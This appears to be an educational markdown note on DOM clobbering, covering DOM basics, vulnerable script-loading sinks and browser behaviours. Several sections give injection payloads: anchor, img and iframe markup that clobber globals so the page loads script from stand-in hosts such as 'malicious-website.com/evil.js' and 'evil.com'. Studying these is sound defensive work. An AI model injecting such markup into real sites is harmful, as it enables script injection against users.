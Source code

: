 --------------

### Dom Clobbering

--------------

### Document Object Model

-------------

- Dom is known as the document object model.It is a programming interface that allows us to create,remove and change element from a document.DOM is very powerful in the way that it allows you to change or access the majority of the content inside the web page. The DOM views an HTML document as a tree of nodes. A node represents an HTML element. 
- Html code E.g

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>DOM tree structure</title>
  </head>
  <body>
    <h1>DOM tree structure</h1>
 <h2>Learn about the DOM</h2>
  </body>
</html>
```
- Explanation-: The document is called the `root node` and contains  a child node which is the `<html>` tag.The `<html>` contains the `<head>` and `<body>` elements.`<head>` and `<body>` have elements of their own.

---------------

### HTML Collection

---------------

- When we combine HTML elements into groups they become a collection. This becomes like an array structure where you can represent each element by the order they appear in the collection e.g. collection[0], collection[1].

---------------

### DOM CLobbering

---------------

- DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM. So you can clobber a global variable or property of an object and overwrite it DOM Node or HTML collection. However, DOM was initially born and implemented without any standardization which led to a lot of peculiar behaviour and for the sake of maintaining compatibility, browsers still support the unusual behaviour of DOM. That leads us to DOM clobbering. Due to non-standardized DOM behaviour, browsers may sometimes add name and id attributes to various DOM elements as a property reference to document or global objects. However, this results in replacement of properties on the other objects.
- How it works-:
 - The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.The term clobbering comes from the fact that you are “clobbering” a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form’s actual submit() function.
- Main sink-:

```javascript
var someObject = window.someObject || {};
```

- If you can control some of the html, you can clobber the `someObject` object reference with a DOM node with an anchor.Check this code-:

```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

- Payload-:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js> 
```

- As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

--------------

### Basics

---------------

- You can generate global variables within the js context with the attributes `id` and `name` in html tags.

```html
<form id="x"></form>
<script>
  console.log(typeof document.x) //[object HTMLFormElement]
</script>
```
- Only certain elements can use the `name` attributes.e.g

```html
embed
form
iframe
image
img
object
```
- Interestingly, when you use a form element to clobber a variable, you will get the toString value of the element itself: [object HTMLFormElement] but with anchor the toString will be the anchor href.If you clobber using the a tag, you can control the value when it's treated as a string.

```html
<a href="controlled string" id="x"></a>
<script>
  console.log(x) //controlled string
</script>
```
- Clobbering an array and attributes-:

```html
<a id=x>
  <a id =x name=y href=controlled>
  </a>
</a>
```
- Use a form to clobber 3 attributes-:

```html
<form id="x" name="y"><input id="z" value="controlled" /></form>
<form id="x"></form>
<script>
  alert(x.y.z.value) //controlled
</script>
```
- Clobbering attributes with `iframe`

```html
<iframe name="x" srcdoc="<a id=y href=controlled></a>"></iframe>
<style>
  @import "https://google.com";
</style>
<script>
  alert(x.y) //controlled
</script>
```
--------------

### Youtube Video(Ruhrsec 2023)

----------------

-  It means `codeless markup injection`.
-  Markup `id/name` collides with sensitive variables or APIs, and overwrties them.
-  Code sink-:
```js
document.globalConfig = {'src': 'script.js', [...]);
// [...]
var s =  document.createElement('script');
//sink
s.src = doocument.globalCOnfig.src;
document.body.appendChild(s);
```
- Payload-:
```html
<img id="globalConfig" src="malicious.js" name=clobbered>
```
- Dom Clobbering: Threat Model-:
 - Injection( through input params)
   -  Url params
   -  Window name
   -  Document Referrer
   -  postMessages

-----------

### Why does  `DOM Clobbering` happen?

------------

- Locating DOM elements(the ez way)-:

```js
document.querySelector("[id=Y]");
```
- The dirty way(Property access on window or document)-:

```js
document.X.Y, or window.Y
```
--------------

### Clobbering Markups and Browser Behaviours

--------------

- First DOM Clobbering instance in 2010
- Application code-:

```js
top.location = self.location
```
- Attack markup(injection)-:
```html
<iframe name=self src="evil.com">
```

- 

---------------

### REFERENCES

---------------

- [IBM](https://medium.com/@ibm_ptc_security/dom-clobbering-baa55c208bce)

---------------
